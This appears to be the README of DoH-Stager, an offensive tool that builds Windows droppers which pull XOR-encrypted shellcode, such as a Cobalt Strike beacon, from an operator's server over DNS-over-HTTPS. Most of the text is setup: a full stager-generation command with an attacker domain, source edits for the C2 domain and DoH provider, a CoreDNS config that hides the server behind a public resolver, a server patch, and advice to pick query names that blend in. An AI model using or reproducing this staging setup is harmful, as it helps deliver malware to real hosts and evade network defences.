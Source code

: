 # DoH-Stager

DoH-Stager is an expansion of the awesome [DNSStager](https://github.com/mhaskar/DNSStager) tool made by [@mohammadaskar2](https://twitter.com/mohammadaskar2). DoH-Stager is aimed at providing the same functionalities as the original version, but using DNS-over-HTTPS instead of classic DNS. 

For those who are not familiar with DNSStager, the project is program what allows the operator to create a number of stagers that will fetch an arbitrary payload via DNS. Despite the PoC is intended to be used with a shellcode, it can adapted to retrieve any content such as encryption keys or other post-exploitation capabilities. 

This update was necessary in order to operate in environments where DNS resolution was restricted on the host and mostly delegated to the HTTP proxy.

## Usage

In order to use DoH-Stager you need to configure the following components:

- A custom NS record configured in your DNS provider that points to the host where the DNSStager server was deployed
- A fully functioning DNSStager deployment, as outlined [here](https://github.com/mhaskar/DNSStager#installation).

Run the `dnsstager`python script as follows:

```
./dnsstager.py  --domain p.pacc.tortellozzi.club --payload x64/c/ipv6 --o
utput ~/payload.exe --prefix emperor --sleep 1 --xorkey 0x10 --shellcode_path ~/calc-thread64.bin
```

The arguments:

- `--domain p.pacc.tortellozzi.club` is the domain that you want to use for DNSStager
- `--payload x64/c/ipv6`is the type of payload that you want to generate, do not change this.
- `--prefix emperor` the prexif to prepend to all the queries, find a suitable name that will blend in.
- `--xorkey 0x10`the key used to encrypt the shellcode/payload  
- `--shellcode_path ~/calc-thread64.bin` is the shellcode that you want to serve 

Take note of the `xorkey` parameter you use, as you will need to manually copy it in the `DoHStager.cpp` file later.

You can modify line 18 of the `DoHStager.cpp` file to use other DoH providers, the provided PoC only used Google's DNS:

```
 18 #define DOMAIN              "dns.google.com"
```

You will also need to modify line 189 to specify your custom domain:

```
189                 sprintf_s(domain, 200, "emperor%i.p.pacc.tortellozzi.club",     i);
```

the above should match with the values that you specified when the `dnsstager` server was launched.

Compile the project using Visual Studio (tested with VS2019) and enjoy your dropper! Of course it is missing several features, such as:

- Execution guardrails
- OpSec-safe process injection

But after all we want to keep a couple of aces in our sleeve and not provide a fully weaponised version available to the public.

In addition, if you do not want to expose your DNSStager server directly to the internet, and there are several reasons for not doing it, as outlined in F-Secure's blog [Detecting Exposed Cobalt Strike DNS Redirectors](https://labs.f-secure.com/blog/detecting-exposed-cobalt-strike-dns-redirectors), it is possible to use CoreDNS to provide an additional layer of obfuscation.

Using the proposed configuration it will be possible to have a DNS server that will forward DNS queries to all the domain via the Quad9 resolver, whilst forwarding the traffic to the DNSStager server only for the desired zone.

The Corefile that can be used is the following:

```
. {
log
  forward . 9.9.9.9
}

p.pacc.tortellozzi.club {
        log
        forward . 127.0.0.1:5050
}
```

And the only thing that was changed in the original server's python script was the port where the server will be listening to:
```
--- a/core/functions.py
+++ b/core/functions.py
@@ -185,8 +185,8 @@ def start_dns_server(ZONES):
     resolver = Resolver(ZONES)

     try:
-        server = DNSServer(resolver, port=53, address="0.0.0.0", tcp=False)
-        print_success("Server started!")
+        server = DNSServer(resolver, port=5050, address="0.0.0.0", tcp=False)
+        print_success("Server started on port 5050!")
         server.start()
```

## Other Notes

* This tool is not great in terms of performance. In fact, to download a fully stageless Cobalt Strike beacon might take approximately one hour wilst genertaing a lot of traffic. Use at your own risk.
* 
